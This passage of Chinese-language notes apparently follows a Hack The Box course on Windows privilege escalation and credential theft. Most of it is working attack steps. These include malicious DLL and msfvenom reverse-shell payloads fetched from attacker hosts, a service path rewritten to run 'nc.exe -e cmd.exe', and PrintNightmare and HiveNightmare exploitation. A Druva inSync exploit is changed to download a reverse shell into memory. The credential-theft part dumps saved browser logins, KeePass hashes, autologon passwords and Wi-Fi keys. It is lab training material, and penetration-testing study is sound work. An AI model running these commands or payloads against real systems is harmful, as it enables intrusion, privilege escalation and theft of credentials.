@htb[/htb]$ sudo python3 -m http.server 8080
```

### 5.1.10下载 DLL 目标

```powershell-session
PS C:\htb>curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

### 5.1.11在攻击主机上启动 nc 侦听器

```shell-session
@htb[/htb]$ nc -lvnp 8443
```

### 5.1.12测试连接

```cmd-session
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

```shell-session
@htb[/htb]$ nc -lnvp 8443
```

### 5.1.13在目标主机上执行 SystemPropertiesAdvanced.exe

```cmd
C:\htb> tasklist /svc | findstr "rundll32"
```

```cmd
C:\htb> taskkill /PID 7044 /F #确保我们之前执行的 rundll32 进程的任何实例都已终止
```

```cmd
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

## 5.2 弱权限

### 方法一、宽松的文件系统ACL

1.1运行SharpUp检查ACL较弱的服务二进制文件

```powershell-session
PS C:\htb> .\SharpUp.exe audit
```

1.2使用icacls检查权限

```powershell-session
PS C:\htb> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

1.3替换服务二进制文件

该服务也可以由非特权用户启动，因此我们可以备份原始二进制文件并将其替换为`使用 msfvenom` 生成的恶意二进制文件。它可以为我们提供一个反向 shell 作为 `SYSTEM`，或者添加一个本地管理员用户并让我们对机器进行完全的管理控制。

```cmd-session
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService
```

### 方法二、弱服务权限

1.1用sharpup再次审查

```cmd-session
C:\htb> SharpUp.exe audit
```

1.2使用 AccessChk 检查权限

```cmd-session
C:\htb> accesschk.exe /accepteula -quvcw WindscribeService
```

1.3检查本地管理员组

```cmd-session
C:\htb> net localgroup administrators
```

1.4更改服务二进制路径

```cmd-session
C:\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```

1.5停止服务

```cmd-session
C:\htb> sc stop WindscribeService
```

1.6启动服务

```cmd-session
C:\htb> sc start WindscribeService
```

1.7确认添加本地管理员组

```cmd-session
C:\htb> net localgroup administrators
```

1.8恢复二进制路径

```cmd-session
C:\htb> sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"
```

1.9重启服务

```cmd-session
C:\htb> sc start WindScribeService
```

1.10验证服务是否正常运行

```cmd-session
C:\htb> sc query WindScribeService
```

### 方法三、未带引号的服务路径

安装服务时，注册表配置指定应在服务启动时执行的二进制文件的路径。如果此二进制文件未封装在引号中，Windows 将尝试在不同的文件夹中查找该二进制文件。

但是，在驱动器的根目录或程序文件文件夹中创建文件需要管理权限。即使系统配置错误以允许这样做，用户也可能无法重新启动服务，并且依赖于系统重新启动来提升权限。尽管发现具有未加引号的服务路径的应用程序并不少见，但它通常不会被利用。

**搜索未带引号的服务路径**

```cmd-session
C:\htb> wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

### 方法四、宽松的注册表ACL

1.1检查注册表中的弱服务 ACL

```cmd-session
C:\htb> accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```

1.2使用 PowerShell 更改 ImagePath

```powershell-session
PS C:\htb> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

1.3检查启动程序，可修改的注册表自动运行二进制文件

```powershell-session
PS C:\htb> Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

## 5.3 内核漏洞利用

MS08-067

MS17-010

ALPC Task Scheduler 0-Day `ALPC 任务计划程序 0 天 `- Windows 任务计划程序服务使用的 ALPC 终结点方法可用于将任意 DACL 写入位于 `C：\Windows\tasks` 目录中的 `.job` 文件。攻击者可以利用它创建指向攻击者控制的文件的硬链接。此缺陷的漏洞利用使用 [SchRpcSetSecurity](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/a8172c11-a24a-4ad9-abd0-82bcf29d794d?redirectedfrom=MSDN) API 函数使用 XPS 打印机调用打印作业，并通过后台处理程序服务将 DLL 劫持为 NT AUTHORITY\SYSTEM。深入的文章可在[此处](https://web.archive.org/web/20250303161707/https://blog.grimm-co.com/2020/05/alpc-task-scheduler-0-day.html)获得。

CVE-2021-36934 `CVE-2021-36934 HiveNightmare, aka SeriousSam` 是 Windows 10 的一个缺陷，导致任何用户都有权读取 Windows 注册表并访问敏感信息，而不管权限级别如何。研究人员迅速开发了一种 PoC 漏洞，允许读取 SAM、SYSTEM 和 SECURITY 注册表配置单元，并创建它们的副本以供以后离线处理，并使用 SecretsDump.py 等工具提取密码哈希值（包括本地管理员）。

### 5.3.1值得注意的漏洞

检查SAM文件的权限

```cmd-session
C:\htb> icacls c:\Windows\System32\config\SAM
```

执行攻击和解析密码哈希

```powershell-session
PS C:\Users\htb-student\Desktop> .\HiveNightmare.exe
```

```shell-session
[/htb]$ impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local
```

检查后台处理程序服务

```powershell-session
PS C:\htb> ls \\localhost\pipe\spoolss
```

使用 PrintNightmare PowerShell PoC 添加本地管理员

```powershell-session
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process
```

```powershell-session
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```

确认新管理员用户

```powershell-session
PS C:\htb> net user hacker
```

### 5.3.2枚举缺少的补丁

检查已安装的更新

```powershell-session
PS C:\htb> systeminfo
PS C:\htb> wmic qfe list brief
PS C:\htb> Get-Hotfix
```

[此](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668)CVE-2020-0668利用：

检查当前用户权限

```cmd-session
C:\htb> whoami /priv
```

```shell-session
CVE-2020-0668.exe
CVE-2020-0668.exe.config
CVE-2020-0668.pdb
NtApiDotNet.dll
NtApiDotNet.xml
```

检查二进制文件的权限

```cmd-session
C:\htb> icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

生成恶意二进制文件

```shell-session
[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```

托管恶意二进制文件

```shell-session
[/htb]$ $ python3 -m http.server 8080
```

下载恶意二进制文件

```powershell-session
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```

运行漏洞利用

```cmd-session
C:\htb> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe" 
```

检查新文件的权限

```cmd-session
C:\htb> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
```

用恶意二进制文件替换文件

```cmd-session
C:\htb> copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Metasploit资源脚本，将以下命令保存到名为handler.rc的资源脚本文件中

```shell-session
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```

使用资源脚本启动Metasploit

```shell-session
[/htb]$ sudo msfconsole -r handler.rc 
```

启动服务

```cmd-session
C:\htb> net start MozillaMaintenance 
```

实验答案：

1. msfvenom -p **windows/x64/meterpreter/shell_reverse_tcp** LHOST=10.10.16.3 LPORT=4447 -f exe > maintenanceservice.exe

2. nc -lvvp 4447

## 5.4易受攻击的服务

枚举已安装的程序

```cmd-session
C:\htb> wmic product get name
```

枚举本地端口

```cmd-session
C:\htb> netstat -ano | findstr 6064
```

枚举进程ID

```powershell-session
PS C:\htb> get-process -Id 3324
```

枚举正在运行的服务

```powershell-session
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}
```

Druva inSync PowerShell PoC

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

我们试试用 [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1),在脚本文件底部加上以下内容（同时更改 IP 以匹配我们的地址和监听端口）：

```shell-session
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.3 -Port 9443
```

修改 Druva inSync 漏洞利用 PoC 脚本中的 `$cmd` 变量，将我们的 PowerShell 反向 shell 下载到内存中。

```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

最后，在攻击框上启动 `Netcat` 侦听器，并在目标主机上执行 PoC PowerShell 脚本（使用诸如 `Set-ExecutionPolicy Bypass -Scope Process` 的命令修改 [PowerShell 执行策略](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy)后）。如果一切按计划进行，我们将以 `SYSTEM` 权限恢复反向 shell 连接。

## 5.5 DLL注入

# 6、凭据盗窃

## 6.1凭据搜寻

应用程序配置文件

```powershell-session
PS C:\htb> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```

字典文件

```powershell-session
PS C:\htb> gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```

powershell历史记录文件

从 Windows 10 中的 Powershell 5.0 开始，PowerShell 将命令历史记录存储到文件：

- `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`.

确认powershell历史记录保存路径

```powershell-session
PS C:\htb> (Get-PSReadLineOption).HistorySavePath
```

读取poweshell历史记录文件

```powershell-session
PS C:\htb> gc (Get-PSReadLineOption).HistorySavePath
```

```powershell-session
PS C:\htb> foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\C
onsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

解密Powershell凭据

```powershell-session
PS C:\htb> $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
PS C:\htb> $credential.GetNetworkCredential().username
```

本节实验答案：

```powershell
Set-Location C:\Users
Get-ChildItem -Recurse -Include *.txt,*.ini,*.cfg,*.config,*.xml -ErrorAction SilentlyContinue |
  Select-String -Pattern '(?i)(password|passwd|pwd|secret|token)' |
  ForEach-Object { "$($_.Path):$($_.LineNumber): $($_.Line.Trim())" }
```

## 6.2 其他文件

### 6.2.1手动在文件系统中搜索凭据

```cmd-session
cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt
```

```cmd-session
findstr /si password *.xml *.ini *.txt *.config
```

```cmd-session
findstr /spin "password" *.*
```

```powershell-session
select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password
```

```cmd-session
 dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
```

```cmd-session
where /R C:\ *.config
```

```powershell-session
Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
```

### 6.2.2Sticky Notes Passwords

这个文件位于， `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`

我们可以把三个 `plum.sqlite*` 文件复制到系统，用 DB[ 浏览器等 SQLite](https://sqlitebrowser.org/dl/) 工具打开，通过查询`选择 Text from Note;` 查看 `Note 表中的 ``Text`` 列。

这也可以用 [PowerShell 的 PSSQLite 模块](https://github.com/RamblingCookieMonster/PSSQLite)实现。首先，导入模块，指向一个数据源（这里指的是 StickNotes 应用使用的 SQLite 数据库文件），最后查询 `Note` 表，寻找任何有趣的数据。这也可以在我们的攻击机器下载 `.skite` 文件后完成，或者通过 WinRM 远程完成。

```powershell-session
Set-ExecutionPolicy Bypass -Scope Process
cd .\PSSQLite\
Import-Module .\PSSQLite.psd1
$db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
```

Strings to View DB File Contents 这取决于数据库大小，效率可能较低。

```shell-session
strings plum.sqlite-wal
```

### 6.2.3其他有趣的文件

```shell-session
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```

## 6.3 进一步的凭证盗窃

### 6.3.1Cmdkey Saved Credentials

[cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) 命令可用于创建、列出和删除存储的用户名和密码。用户可能希望存储特定主机的凭据，或使用它来存储终端服务连接的凭据，以便使用远程桌面连接到远程主机，而无需输入密码。

```cmd-session
cmdkey /list
```

### 6.3.2以其他用户身份运行命令

我们还可以尝试使用 `runas` 重用凭据，以该用户身份向自己发送反向 shell、运行二进制文件或使用以下命令启动 PowerShell 或 CMD 控制台：

```powershell-session
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

### 6.3.3浏览器凭据

用户通常会在浏览器中存储他们经常访问的应用程序的凭据。我们可以使用 [SharpChrome](https://github.com/GhostPack/SharpDPAPI) 等工具从 Google Chrome 检索 cookie 和保存的登录信息。

```powershell-session
PS C:\htb> .\SharpChrome.exe logins /unprotect
```

### 6.3.4密码管理器

许多公司为用户提供密码管理器。这可能是桌面应用程序如 `KeePass`，云端解决方案如 `1Password`，或企业密码库如 `Thycotic` 或 `CyberArk`。

如果我们在服务器、工作站或文件共享中发现 `.kdbx` 文件，我们就知道面对的是 `KeePass` 数据库，通常仅由主密码保护。如果我们能向攻击主机下载 `.kdbx` 文件，可以使用 [keepass2john](https://gist.githubusercontent.com/HarmJ0y/116fa1b559372804877e604d7d367bbc/raw/c0c6f45ad89310e61ec0363a69913e966fe17633/keepass2john.py) 等工具提取密码哈希值，并通过密码破解工具如 [Hashcat](https://github.com/hashcat) 或 [John the Ripper](https://github.com/openwall/john) 进行处理。

提取 KeePass 哈希：

```shell-session
python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx 
```

离线破解哈希

```shell-session
hashcat -m 13400 keepass_hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```

### 6.3.5电子邮件

如果我们访问了拥有 Microsoft Exchange 收件箱的域名用户的域名加入系统，可以使用 [MailSniper](https://github.com/dafthack/MailSniper) 工具尝试搜索用户邮箱中的“pass”、“creds”、“credentials”等词汇。

### 6.3.6More Fun with Credentials

当一切都失败时，我们可以运行 [LaZagne](https://github.com/AlessandroZ/LaZagne) 工具，尝试从各种软件中获取凭证。这些软件包括网页浏览器、聊天客户端、数据库、电子邮件、内存转储、各种系统管理工具以及内部密码存储机制（如 Autologon、Credman、DPAPI、LSA 秘密等）。

查看 LaZagne 帮助菜单：

```powershell-session
.\lazagne.exe -h
```

```powershell-session
.\lazagne.exe all
```

我们可以使用 [SessionGopher](https://github.com/Arvanaghi/SessionGopher) 提取已保存的 PuTTY、WinSCP、FileZilla、SuperPuTTY 和 RDP 凭证。该工具用 PowerShell 编写，用于搜索和解密存储的登录信息，供远程访问工具使用。它可以本地运行，也可以远程运行。它会搜索所有登录过域加入（或独立）主机的用户 `HKEY_USERS` 蜂箱，并搜索并解密任何保存的会话信息。它也可以用于搜索 PuTTY 私钥文件（.ppk）、远程桌面（.rdp）和 RSA（.sdtid）文件。

```powershell-session
PS C:\htb> Import-Module .\SessionGopher.ps1
 
PS C:\Tools> Invoke-SessionGopher -Target WINLPE-SRV01
```

### 6.3.7注册表中的明文密码存储

#### Autologon

某些程序和 Windows 配置可能导致注册表中存储明文密码或其他数据。虽然 `Lazagne` 和 `SessionGopher` 等工具是提取凭据的好方法，但作为渗透测试人员，我们也应熟悉并熟悉手动枚举凭证。

Windows [Autologon](https://learn.microsoft.com/en-us/troubleshoot/windows-server/user-profiles-and-logon/turn-on-automatic-logon) 是一项功能，允许用户配置其 Windows 作系统自动登录特定用户账户，无需每次启动时手动输入用户名和密码。然而，一旦配置好，用户名和密码会以明文形式存储在注册表中。此功能通常用于单用户系统或在便利性大于安全性需求的情况下。

```cmd-session
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

`AdminAutoLogon` - Determines whether Autologon is enabled or disabled. A value of "1" means it is enabled.

`DefaultUserName` - Holds the value of the username of the account that will automatically log on.

`DefaultPassword` - Holds the value of the password for the user account specified previously.

#### Putty 

```powershell-session
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
```

```powershell-session
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
```

### 6.3.8 WiFi密码

```cmd-session
netsh wlan show profile
```

```cmd-session
netsh wlan show profile ilfreight_corp key=clear
```
